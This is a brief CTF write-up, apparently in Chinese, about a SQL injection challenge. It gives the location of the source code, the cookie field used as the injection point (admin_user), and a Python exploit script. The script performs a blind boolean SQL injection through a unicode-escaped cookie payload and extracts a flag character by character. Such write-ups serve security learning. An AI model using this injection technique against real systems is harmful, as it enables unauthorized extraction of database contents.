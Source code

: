 www.zip拿源码

注入点再cooike里的admin_user

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2018.png)

exp.py

```python
import requests
url='http://665c87ef-b542-431c-b294-088c5cc2b568.node4.buuoj.cn:81/include/common.php'
def unicode(s):
    Char=''
    for i in s:
        Char+=r'\u00'+hex(ord(i))[2:]
    return Char
text=''
dic = list('1234567890abcdefghijklmnopqrstuvwxyz[]<>@!-~?=_()*{}#. /')
for i in range(1,100):
    for s in dic:
        s=ord(s)
        payload=unicode("'||(ascii(substr((select group_concat(f44ag) from fl2222g),"+str(i)+",1))="+str(s)+")and'1")
        cookie={"islogin":"1","login_data":"{\"admin_user\":\""+payload+"\"}"}
        re=requests.get(url=url,cookies=cookie)
        if 'Set-Cookie' in re.headers:
            if re.headers['Set-Cookie'].count('expire') == 2:
                text += chr(s)
                print(text)
                break
        else:
            continue
```